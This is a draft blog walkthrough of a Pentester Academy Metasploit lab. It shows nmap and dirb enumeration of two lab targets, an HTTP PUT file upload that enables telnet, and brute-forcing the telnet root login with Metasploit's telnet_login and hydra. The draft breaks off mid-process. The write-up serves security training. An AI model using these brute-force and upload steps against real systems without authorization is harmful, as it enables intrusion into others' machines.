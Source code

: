 +++
author = "Nick"
date = 2020-01-02T14:30:07Z
description = ""
draft = true
slug = "attack-defense-metasploit-ctf-5"
title = "Attack | Defense - Metasploit CTF 5"

+++


Welcome back to the third entry in this series. In the last entry we used three `Metasploit` modules to obtain `mysql` credentials and leverage them on the target machine.

## Overview
In this entry we will tackle the third Metasploit CTF on Pentester Academy. In this entry we will use two `Metasploit` modules. A module to test for valid user credentials and an authenticated RCE.

## Network Topology

![](/images/2019/12/image-77.png)

## Enumeration
We know that in this set of labs, we are given two targets. `Target-1` and `Target-2`. We will scan these directly. 

Command:
`nmap -sC -sV -T5 target-1`
`nmap -sC -sV -T5 target-2`

We can also combine both targets into a single command.

Command:
`nmap -sC -sV -T5 target-1 target-2`

Here are our results:
```
Nmap scan report for target-1 (192.132.185.3)
Host is up (0.000036s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
MAC Address: 02:42:C0:84:B9:03 (Unknown)
```
```
Nmap scan report for target-2 (192.132.185.4)
Host is up (0.000036s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 34:4a:77:26:eb:63:83:5d:58:1d:fb:6b:4b:97:1e:44 (RSA)
|   256 cc:3b:73:25:12:38:68:1f:16:cd:5f:77:67:33:b4:a5 (ECDSA)
|_  256 a5:5f:c5:34:61:58:51:1f:0b:4f:50:1f:34:37:7a:d7 (ED25519)
MAC Address: 02:42:C0:84:B9:04 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We see a web service running on `Target-1` and `SSH` running on `Target-2`. We will `curl` the the web service to see what is running. If you've never used `curl` before, it's short for client URL. It is a tool that lets us transfer data within URL and URL formats. We can make web requests with it, download files or even enumerate. If you aren't already, you should get familiar with it since it's an extraordinarily useful and common tool. [Here is free ebook](https://curl.haxx.se/book.html) on the tool by the creators!

Let's curl the target. By default it will use port 80, which is where we have things running.

Command:
`curl target-1`

![](/images/2020/01/image.png)

We are told to stop the `apache` server to start the telnet server. That's fun. We can create a file called `stop.txt` with the `touch` command.

Command:
`touch stop.txt`

This creates a blank file in our current working directory with the name stop.txt. Now that we have a file, we don't know where we should be putting it. We will want to enumerate the target a bit more. I would normally use `gobuster` for directory enumeration however it was not supplied with this CTF console. We will use `dirb`, it will work just as well.

If you aren't familiar with `dirb`, `dirbuster` or `gobuster`, you should be. They are basic directory enumeration tools for web targets. You supply them a wordlist and target and it will check each location sequentially according to the list.

Command:
`dirb http://target-1 -r -N 403`

The breakdown of the command is as follows:
`dirb` is our tool. 
`-r` tells it to not be recursive. So in case we find a rabbit hole of directories, we can shorten our scan time.
`-N` tells it to ignore the error following it. In this case `403`.

We find two locations `manual` and `access`. The later seems like a good target location, let's use that.

Once we have the file and location we will launch `Metasploit`. We can use the module `auxiliar/scanner/http/http_put` to upload a file. You can find this by `search`ing for `upload` inside `Metasploit`.

Command:
`msf5> use auxiliary/scanner/http/http_put`

We then want to `show` our `options`.

Command:
`msf5> show options` or `msf5> options`

![](/images/2020/01/image-1.png)

We have to set our `rhost`, `filename` and `path` for this module.

Command:
`msf5> set rhost target-1`
`msf5> set filename stop.txt`
`msf5> set path access`

We can then `run` our module.

Command:
`msf5> run` or `msf5> exploit`

![](/images/2020/01/CTF_5_http_put.gif)

We see that the file was sucessfully uploaded. Now we can rescan the target for any open `telnet` ports, typically port 23.

Command:
`nmap -T5 -p- target-1`

![](/images/2020/01/image-2.png)

We now have a `telnet` port available. Now we `telnet` to the target.

Command:
`telnet`
`telnet> open`
`(to) target-1`

We are then greeted with a login prompt.

![](/images/2020/01/image-3.png)

We try and login with standard default credentials for admin, root and other services but none work. We are then booted out after 5 failed attempts. We enumerate the service with an addition `nmap` scan.

Command:
`scan -sC -sV -T5 -p 23 target-1`

We get back very little info:
```
PORT   STATE SERVICE VERSION
23/tcp open  telnet  Linux telnetd
MAC Address: 02:42:C0:84:B9:03 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We launch `Metasploit` and use the `auxiliary/scanner/telnet/telnet_version` module to see what it might show.

![](/images/2020/01/image-4.png)

We see Ubuntu 16.04.5 LTS running and that's about it. Looks like we might need to brute force our way in. We can `use` the module `auxiliary/scanner/telnet/telnet_login`. Inside this module we have a few `options`:

![](/images/2020/01/image-6.png)

We want to `set` the following: `rhost`, `username` and `pass_file`. You can also set a `user_file` as well. This option looks for a list of users should you not want to target just the root account. In our case though, we are just going to set our `username` to root and the hope it's what we want.

Commands:
`msf5> set rhost target-1`
`msf5> set username root`
`msf5> set pass_file ~/wordlists/100-common-passwords.txt`

Then we `run` it.

Command:
`msf5> run` or `msf5> exploit`

Eventually we get a match!



![](/images/2020/01/image-5.png)

We can now log in as root to `target-1`. Since `Metasploit` does a decent job with workflow, it has already created this login session for us! We can view our sessions to see which is active.

Command:
`msf5> sessions`

We then interact with the session we want.

Command:
`msf5> session -i 1`

But it seems to fail. We try the password manually, and it also fails. Hmmm. Is it possible that this password changes randomly? So we retry the scan and sure enough it seems to use a new password. S

![](/images/2020/01/image-7.png)

So now, the question is what's next? It seems that it changes either every minute or every successful attempt. It also seems to go to the next password in the list. We know that we can enumerate the root username password combination but what good is that to us?

They could also be false positives. So in oder to double check our results, we will launch `hydra`. 

`Hydra` is a tool used mostly for dictionary attacks amongst other things. In this case we are going to point it at the telnet login and see if we get similar results back. 

Command:
`hydra -L /usr/share/wordlists/metasploit/unix_usernames -P /usr/share/wordlists/metasploit/unix_passwords.txt` target-1 telnet`

Our command is as follows:
`-L` for a Username list. If we knew a username reliably, we could use `-l` for a specific list.
`-P` for a password list. Alternatly `-p` for a specific password.
We then list our target as `target-1` and our protocol as `telnet`.

![](/images/2020/01/image-9.png)

We get a match! Time to use the `telnet_login` module again.



![](/images/2020/01/image-10.png)

